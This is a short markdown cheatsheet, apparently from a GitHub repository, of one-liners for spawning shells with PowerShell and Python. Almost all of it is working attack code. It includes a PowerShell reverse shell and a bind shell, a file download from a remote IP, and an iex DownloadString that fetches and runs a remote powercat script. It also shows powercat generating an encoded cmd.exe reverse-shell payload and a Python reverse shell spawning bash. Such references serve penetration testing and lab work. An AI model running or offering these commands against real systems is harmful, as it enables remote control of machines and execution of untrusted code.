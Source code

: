 # Shell spawn cheatsheet



## *Powershell*

### Download file
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.22.33.44/wget.exe','C:\Users\test\Desktop\wget.exe')"
```

### Reverse shell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('11.22.33.44',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind shell
```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

### Load a remote powercat script
```powershell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/0xc0de44/0xc0de/master/tools/powercat.ps1')
```

### Generate encoded payload (here a reverse shell)
```powershell
powercat -c 11.22.33.44 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```
### Execute it
```powershell
powershell -E <encoded payload>
```

## *python*

### Reverse shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("11.22.33.44",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```


